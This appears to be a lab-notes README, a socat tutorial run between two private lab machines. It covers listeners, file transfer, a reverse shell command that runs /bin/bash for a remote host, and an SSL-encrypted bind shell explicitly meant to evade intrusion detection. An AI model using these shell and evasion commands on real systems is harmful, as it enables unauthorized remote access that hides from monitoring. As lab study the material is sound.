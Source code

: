 # Content

- [Content](#content)
  - [Setup](#setup)
  - [Connect to remote host](#connect-to-remote-host)
  - [Transfer files](#transfer-files)
    - [Senario](#senario)
    - [Command](#command)
  - [Reverse shell](#reverse-shell)
    - [From purple to kali](#from-purple-to-kali)
  - [Bind shell](#bind-shell)
    - [Reasion why use SSL with bind shell](#reasion-why-use-ssl-with-bind-shell)
    - [IDS](#ids)

## Setup

- I use a Kali machine with IP: 192.168.50.156 with user 
- I use a Kali Purple machine with IP: 192.168.50.159 with root user

## Connect to remote host

- Create a listener on port or remote host (KP)

  - command: `socat -d -d TCP4-LISTEN:4444 STDOUT`
  ![Picture](../Socat/Image/1.png)
  - Here you will see a bunch of additional information:
    - The protocol for the listener in the example above is TCP-LISTEN
    - STDOUT is standard output;
    - To bind listeners to ports below 1024 will require root privileges (or run sudo);
    - option “-d -d” to increase the granularity of messages and errors (if any);
    - The message in the red box appears when you create an incoming connection.

- Connect to remote host from Kali machine
  - command: `socat -d -d TCP4;192.168.50.159:4444`
  ![Picture](../Socat/Image/2.png)
  - In Socat's syntax, you'll see additional things appear:
    - The "-" sign identifies the data transmission between the STDIO and the remote host;
    - Specify the protocol to use, with the above example being TCP4;
    - Use ":" to separate protcol, option, port;

## Transfer files

### Senario

- I wil send a file name "secret.txt" from Kali machine to Purple machine.

### Command

- In kali, i use commmand: `socat TCP4-LISTEN:4444,fork file:hello.txt`
  ![Picture](../Socat/Image/3.png)
- Here you will see a new object called fork with the function of creating a child process (roughly translated as child process) once there is a connection to the listener. This will allow you to run multiple connections as needed;
- “file:” will specify the file to be saved on Kali Linux (in this case, the file is hello.txt);

- In Purple machine, i use command: `socat TCP4:192.168.50.156:4444 file:received_hello.txt,create`
  ![Picture](../Socat/Image/4.png)
- create: create a new file if it does not exist.

## Reverse shell

### From purple to kali

- In purple, i use command: `socat TCP4-LISTEN:4444 STDOUT`
  ![Picture](../Socat/Image/5.png)
- In kali, i use command: `socat TCP4:192.168.50.159:4444 EXEC:/bin/bash`
  ![Picture](../Socat/Image/6.png)
- Finally, i can execute command in kali machine from purple machine
  ![Picture](../Socat/Image/7.png)

## Bind shell 

- To encrypt Bind Shell with Socat you can use SSL/TLS. This encryption will help dodge Intrusion Detection System (IDS) bullets as well as hide sensitive data.
  
### Reasion why use SSL with bind shell
- You can completely use SSL/TLS with Reverse Shell to encrypt data traveling over the network during a remote attack. In fact, using SSL/TLS is also very effective in this case to help avoid IDS and prevent spyware or block the connection.
- However, using SSL/TLS with Bind Shell is more necessary because when you use Bind Shell, your computer will listen and accept incoming connections from other computers. This means that you must ensure that only secure and trusted connections are accepted. If no means of security are deployed, an attacker can easily monitor and spy on the information sent and received over that connection. Therefore, using SSL/TLS for Bind Shell encryption is the best way to protect your information on the network.
  
### IDS

- IDS stands for Intrusion Detection System - Intrusion Detection System. IDSs are used to monitor activities on the network and detect unusual or risky behavior in the network.
- The mechanism of IDS is usually divided into 2 types:
  - Signature-based IDS: IDS examines packets on the network and compares them with known signatures of past attacks. If the packets match the signature of an attack, the system will detect and alert the network administrators.
  - Anomaly-based IDS: This is a type of IDS that uses data analysis algorithms to identify unusual activity on the network. IDS stores information about regular activities on the network and uses it to compare with new activities. If a new activity does not conform to established standards, the IDS will detect and alert the network administrator.

- I will use openssl application to generate self-signed certificate (i.e. I generate self-signed Certificate, no need for CA like with HTTPS) with the following command on Kali Linux:
  `openssl req -newkey rsa:2048 -nodes -keyout b-shell.key -x509 -days 69 -out b-shell.crt`
  - req: initiate a new certificate signing request
  - newkey: generate new private key
  - rsa:2048: use asymmetric encryption RSA key length 2,048-bit (I mentioned RSA in ...)
  - nodes: save private key without passphrase protection
  - keyout: save the key to a file
  - x509: export self-signed certificate instead of certificate request
  - days: set the expiry date in days
  - out: save the certificate to a file
- The above command will generate the private key b-shell.key and certificate b-shell.crt used for Bind Shell encryption.
  ![Picture](../Socat/Image/8.png)
- Once the families (b-shell.key and b-shell.crt) are ready, the next thing you need to do is combine these two files into one pem file so that you can create an encrypted Socat listener.
  ![Picture](../Socat/Image/9.png)
- The next step is to create a listener with the command.
  ![Picture](../Socat/Image/10.png)
  - In the above command, there are a few points to note:
    - option OPENSSL-LISTEN:443 to create listener on port 443
    - cert=b-shell.pem will specify the corresponding certificate as b-shell.pem;
    - verify=0 will disable SSL verification;
- Assuming the layout is done, you can now test it on purple by running the command.
  ![Picture](../Socat/Image/11.png)